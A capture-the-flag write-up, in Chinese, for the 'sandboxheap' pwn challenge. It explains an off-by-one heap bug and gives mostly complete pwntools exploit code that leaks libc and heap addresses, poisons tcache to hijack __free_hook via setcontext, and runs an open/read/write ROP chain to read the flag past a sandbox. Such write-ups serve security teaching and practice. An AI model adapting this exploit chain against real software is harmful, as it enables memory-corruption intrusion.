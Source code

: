 # sandboxheap
### 程序分析
此题保护全开，还开了沙箱保护，只能通过ROW getflag  
有show函数可以得到堆中内容，有问题的地方是edit函数，存在off by one漏洞。  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/add.png)  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/edit.png)  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/ineidt.png)  
由于多读了一字节，可以覆盖下一个chunk的preinuse位。  
需要注意的是edit中会对输入做一定处理，根据每个字符是否是1进行判断，因此我的输入为01组成的字符串，该字符串会按每8个字符进行分割，逆序后组成一个字节。  
### 思路分析
决定使用unsortedbin unlink泄露libc地址、堆地址，得到free_hook地址，在free_hook处写下setcontext+53地址,，这样能在调用free时更改寄存器（rbp，rip）的值，用栈迁移劫持程序运行堆上布置好的orw rop链。  
这是我第一次使用setcontext相关内容，我们可以用gdb查看下里面的东西。  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/setcontext.png)  
发现在setcontext+53的地方有大量寄存器赋值的操作，使用pwntools的SigreturnFrame自动生成frame。  

接下来的大致思路都写在注释里了。  
```
for i in range(7):
    add(i, 0x88)  
add(7, 0x88)
add(8, 0x88)
add(9, 0x88)
add(14,0x190)#打算放orw rop，使程序栈迁移到它
add(15,0x190)#打算放SigreturnFrame，改变freehook为setcontext+53后free它就能更改寄存器的值
add(10, 0x10)
#填充tcache 0x90
for i in range(8):
    free(i)
overedit(8, b'1' * 0x80 + p64(0x120) , 0)#改变第9块的presize和preinuse，使其释放时把第8第7块一块合并了，实现堆块重叠，这样只要第8块中出现libc地址就能用show函数得到
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/pic1.png)  
```
free(9)
add(11, 0x98)
add(12, 0x78)

#泄露libc
show(12)
p.recvuntil(b'Content: ')
libc_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
#泄露堆地址
add(0, 0x88)
edit(8,b'1'*8+p64(0x91))
free(12)
edit(8,b'1'*16)
show(8)
p.recvuntil(b'Content: ')
p.recvuntil(b'1'*16)
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
print("heap_addr: ",hex(heap_addr))
edit(8,p64(0)+p64(91)+p64(free_hook))#改变tcache中第一个free chunk的fd指针为free_hook
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/pic2.png)  
接下来只需要申请两次大小为0x90的chunk就能在free_hook上开辟chunk。  
```
add(1, 0x88)
add(2, 0x88)#index为2的堆开在了free_hook上，改变freehook为setcontext+53
edit(2,p64(setcontext+53))

frame = SigreturnFrame()
frame.rsp=heap_addr+0x2d0#对这个值的要求不高，但不写的话会变成0就出错了
frame.rbp=heap_addr+0x2d0
frame.rip = leave_ret
# edit()
byte_frame=bytes(frame)
# gdb.attach(p,'b free')
edit(1,b'./flag\x00')
#下面两种方法得到orwrop链都可以
#heap_addr+0x1c0为flag
#heap_addr+0x1f0为随便选的输出flag的地方
orw_payload=p64(0xdeadbeef)#rbp
if 1==0:
    orw_payload+=flat([pop_rdi,heap_addr+0x1c0,pop_rsi,0,open_addr])
    orw_payload+=flat([pop_rdi,3,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,read_addr])
    orw_payload+=flat([pop_rdi,1,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,write_addr])
else:
    orw_payload+=flat([pop_rdi,heap_addr+0x1c0,pop_rsi,0,pop_rax,2,syscall])
    orw_payload+=flat([pop_rdi,3,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,pop_rax,0,syscall])
    orw_payload+=flat([pop_rdi,1,pop_rsi,heap_addr+0x1f0,pop_rdx,0x20,pop_rax,1,syscall])
edit(14,orw_payload)
edit(15,byte_frame)
free(15)#自动完成setcontext，然后执行orwrop链
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/success.jpg)  

